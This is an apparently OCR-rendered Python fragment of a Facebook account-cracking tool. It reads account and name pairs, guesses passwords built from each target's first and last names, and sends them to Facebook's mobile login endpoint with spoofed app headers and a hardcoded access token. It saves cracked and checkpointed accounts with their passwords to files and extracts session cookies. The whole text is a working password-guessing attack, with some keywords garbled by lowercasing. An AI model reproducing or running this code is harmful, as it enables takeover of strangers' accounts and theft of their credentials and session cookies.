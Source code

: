    def start(user):
     try:
        global loop,accounts
        r = requests.session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
           last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;91m[\033[1;97mhxw-m1\033[1;91m]\033[1;97m {}-{} \033[1;91m[\033[1;97m{}\033[1;91m] \033[1;97mok : \033[1;92m{} \033[1;97mcp : \033[1;91m{}       \r'.format(str(loop), str(len(accounts)), pers , str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:              
            heads = none
            header = {"content-type": "application/x-www-form-accencoded","host": "graph.facebook.com","user-agent": heads,"x-fb-net-hni": "45204","x-fb-sim-hni": "45201","x-fb-connection-type": "unknown","x-tigon-is-retry": "false","x-fb-session-id": "nid=jiz+ynnbgbwc;pid=main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","x-fb-friendly-name": "viewerreactionsmutation","x-fb-request-analytics-tags": "graphservice","accept-encoding": "gzip, deflate","x-fb-http-engine": "liger","x-fb-client-ip": "true","x-fb-server-cluster": "true","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","connection": "keep-alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_us","client_country_code": "us","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.fb4aauthhandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=false)
      #      print(response.text)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;97mhannan-ok\033[1;92m] \033[1;97m'+acc+' \033[1;92m•\033[1;97m '+pword+'  ')
                open('/sdcard/hannan-ok.txt','a').write(f'{acc} • {pword}\n')
                if c=='y':
                    try:
                           q = json.loads(response.text)
                           ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                           ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                           cookies = f"sb={ssbb};{ckkk}"
                    except exception as e:print(str(e)+' | '+response.text)
                break
            elif 'www.facebook.com' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;97mhannan-cp\033[1;91m] \033[1;97m'+acc+' \033[1;91m•\033[1;97m '+pword+'   ')
                cpacc.append(acc)
                open('/sdcard/hannan-cp.txt','a').write(f'{acc} • {pword}\n')
                break
            else:
                continue